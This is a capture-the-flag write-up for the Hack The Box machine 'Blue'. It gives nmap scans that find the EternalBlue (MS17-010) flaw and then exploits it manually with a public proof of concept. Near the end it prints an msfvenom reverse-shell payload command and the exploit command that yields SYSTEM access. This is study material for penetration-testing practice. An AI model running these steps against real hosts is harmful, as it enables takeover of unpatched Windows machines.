




# Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Mon Jul 25 16:59:49 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv blue.htb
Warning: 10.129.76.113 giving up on port because retransmission cap hit (3).
Increasing send delay for 10.129.76.113 from 0 to 5 due to 6210 out of 20698 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 5 to 10 due to 503 out of 1676 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 10 to 20 due to 509 out of 1695 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 20 to 40 due to 560 out of 1865 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 40 to 80 due to 509 out of 1695 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 80 to 160 due to 835 out of 2781 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 160 to 320 due to 481 out of 1601 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 320 to 640 due to 659 out of 2195 dropped probes since last increase.
Increasing send delay for 10.129.76.113 from 640 to 1000 due to 730 out of 2433 dropped probes since last increase.
Nmap scan report for blue.htb (10.129.76.113)
Host is up, received timestamp-reply ttl 127 (0.085s latency).
Scanned at 2022-07-25 16:59:49 CDT for 20s
Not shown: 65340 closed tcp ports (reset), 186 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jul 25 17:00:09 2022 -- 1 IP address (1 host up) scanned in 20.52 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Mon Jul 25 17:02:09 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 139,445,135,49155,49156,49157,49154,49153,49152 blue.htb
Nmap scan report for blue.htb (10.129.76.113)
Host is up, received echo-reply ttl 127 (0.057s latency).
Scanned at 2022-07-25 17:02:10 CDT for 69s

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-25T22:03:17
|_  start_date: 2022-07-25T21:56:56
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 26118/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26861/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 3924/udp): CLEAN (Timeout)
|   Check 4 (port 63159/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-25T23:03:19+01:00
|_clock-skew: mean: -19m53s, deviation: 34m36s, median: 5s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 25 17:03:19 2022 -- 1 IP address (1 host up) scanned in 70.33 seconds
```

Right away, we see some interesting information:

- SMB is enabled
- `guest` account is enabled
- OS is Windows 7
- Potential username: `haris`

Since it looks like we are possibly working with an outdated system, I'll run nmap's vulnerability scripts and see if we get anything from low hanging from fruit.

```
# Nmap 7.92 scan initiated Mon Jul 25 17:06:50 2022 as: nmap -oA vuln/scan --script vuln,safe,discovery --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 139,445,135,49155,49156,49157,49154,49153,49152 blue.htb
Pre-scan script results:
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     Interface: eth0
|     IP Offered: 192.168.0.69
|     DHCP Message Type: DHCPOFFER
|     Server Identifier: 192.168.0.1
|     IP Address Lease Time: 1d00h00m00s
|     Renewal Time Value: 12h00m00s
|     Rebinding Time Value: 21h00m00s
|     Subnet Mask: 255.255.255.0
|     Domain Name: localdomain
|     Broadcast Address: 192.168.0.255
|     Domain Name Server: 192.168.0.1
|_    Router: 192.168.0.1
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
[...]
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-25T23:07:44+01:00
|_ipidseq: ERROR: Script execution failed (use -d to debug)
[...]
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Jul 25 17:09:33 2022 -- 1 IP address (1 host up) scanned in 163.28 seconds
```

And we see that nmap is reporting this box as vulnerable to CVE-2017-0143, aka EternalBlue.

I was able to get a shell easily with Metasploit, although since I am prepping for the OSCP I will exploit this without Metasploit.

After messing around with some pocs, I came across [this repo](https://github.com/helviojunior/MS17-010/) which is a fork of one of the more popular [repos](https://github.com/worawit/MS17-010).

First, I test with `checker.py` and see denied access for the commonly used named pipes which this exploit uses:
```
$ python2 checker.py 10.129.76.113                                                                 1 ⨯
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

Since we know guest authentication is enabled from our nmap scan, I'll try setting the `USERNAME` variable in this script from `''` to `guest`.



And run it again...

```
$ python2 checker.py 10.129.76.113
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: STATUS_OBJECT_NAME_NOT_FOUND
```

And we get "Ok's" back for `samr`, `netlogon`, and `lsarpc` pipes. Now that we know this should be exploitable via named pipes as `guest`, we should also set var `USERNAME` to `guest` in `send_and_execute.py`



Lastly, `send_and_execute.py` accepts an executable file as an argument to be used as a payload. We'll get this created with meterpreter using the following command:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > rshell.exe`

Time to run the exploit!

`python2 send_and_execute.py 10.129.76.113 rshell.exe 445 lsarpc`



Annndddd just like that we are `NT AUTHORITY\SYSTEM`! We can collect our loot and move on to the next box :)





